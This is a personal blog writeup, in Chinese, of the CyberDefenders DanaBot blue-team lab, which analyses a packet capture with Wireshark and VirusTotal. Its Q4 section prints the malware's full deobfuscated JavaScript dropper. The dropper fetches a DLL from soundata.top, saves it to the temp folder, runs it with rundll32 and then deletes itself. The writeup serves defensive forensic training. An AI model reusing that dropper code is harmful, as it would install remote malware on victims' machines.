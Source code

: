 ```yaml
---
title: DanaBot Lab
published: 2025-08-02
updated: 2025-08-03
description: "CyberDefenders DanaBot Lab writeup"
image: ""
tags: ["CyberDefenders", "Blue Team CTF"]
category: "CyberDefenders"
draft: false
---
```


跟鯨魚諮詢完之後知道有 blue team ctf (再次謝謝鯨魚)  
不能白問，挑我最喜歡的看封包 lab 練一下  
甚麼時候換題目類型...看心情 xd

# DanaBot Lab

[Lab 連結](https://cyberdefenders.org/blueteam-ctf-challenges/danabot/)

## Q1

在封包中看到 `portfolio.serveirc.com` ，用 [VirusTotal](https://www.virustotal.com/gui/home/upload) 查詢這個 domain

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205058814.png)

在 wireshark 裡面看到關於 `portfolio.serveirc.com` 的其中一條出現 ip

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205058888.png)
所以初始存取的 ip 是 `62.173.142.148`

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205058943.png)

> Note: 可以用 VirusTotal 去確認一個網站的信譽

## Q2

在第一次登入看到混淆過的 JavaScript 程式碼，先用線上工具看看能不能解混淆

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205058991.png)

根據解混淆後的程式碼，可以知道應該是使用了`.dll` 並 random 了 10 個字母作為檔案名稱  
(看起來像是下一題的部分)

然後再仔細看一眼封包，就發現檔案名稱是`allegato_708.js`

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059042.png)

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059081.png)

## Q3

在 `File > Export Objects > HTTP` 找到第一個惡意程式，用 `sha256sum` 可以找到 SHA-256 hash

```bash
sha256sum login.php
```

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059122.png)

## Q4

Windows 系統執行 `.js` 檔案是由內建的 `wscript.exe` 或是 `cscript.exe` 負責執行的

```javascript
function _0x414360(_0x5c5160) {
  var _0x119065 = "";
  var _0x5a393f = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".length;
  for (var _0x3d45b7 = 0x0; _0x3d45b7 < _0x5c5160; _0x3d45b7++) {
    _0x119065 += "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".charAt(
      Math.floor(Math.random() * _0x5a393f)
    );
  }
  return _0x119065 + ".dll";
}
var _0x48a85a = _0x414360(0xa);
var _0x44bdd9 =
  new ActiveXObject("Scripting.FileSystemObject").GetSpecialFolder(0x2) +
  "\\" +
  _0x48a85a;
var _0x5da57f = WScript.CreateObject("MSXML2.XMLHTTP");
_0x5da57f.Open("GET", "http://soundata.top/resources.dll", false);
_0x5da57f.Send();
if (_0x5da57f.Status == 0xc8) {
  var _0x3c8952 = WScript.CreateObject("ADODB.Stream");
  _0x3c8952.Open();
  _0x3c8952.Type = 0x1;
  _0x3c8952.Write(_0x5da57f.ResponseBody);
  _0x3c8952.Position = 0x0;
  _0x3c8952.SaveToFile(_0x44bdd9, 0x2);
  _0x3c8952.Close();
  var _0x1e16b0 = WScript.CreateObject("Wscript.Shell");
  _0x1e16b0.Run("rundll32.exe /B " + _0x44bdd9 + ",start", 0x0, true);
}
new ActiveXObject("Scripting.FileSystemObject").DeleteFile(
  WScript.ScriptFullName
);
```

從 `Wscript.Shell` 可以看出是用 `wscript.exe` 來執行的

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059159.png)

## Q5

在 `GET /resources.dll` 裡有一行 `This program cannot be run in DOS mode.` ，然後接下來就是很多的 DoS 紀錄

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059213.png)

所以第二個惡意程式的檔案副檔名就是 `.dll`

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059257.png)

## Q6

最後用 `md5sum` 可以找到 MD5 hash

```bash
md5sum resources.dll
```

---

```txt
I successfully completed DanaBot Blue Team Lab at @CyberDefenders!
https://cyberdefenders.org/blueteam-ctf-challenges/achievements/n1ght0w1/danabot/

#CyberDefenders #CyberSecurity #BlueYard #BlueTeam #InfoSec #SOC #SOCAnalyst #DFIR #CCD #CyberDefender
```

---

## 工具

[VirusTotal](https://www.virustotal.com/gui/home/upload)
可以確認 IP 的信譽

[Obfuscator.io Deobfuscator](https://obf-io.deobfuscate.io/)
解 JavaScript 混淆

[# synchrony](https://deobfuscate.relative.im/)
解 JavaScript 混淆
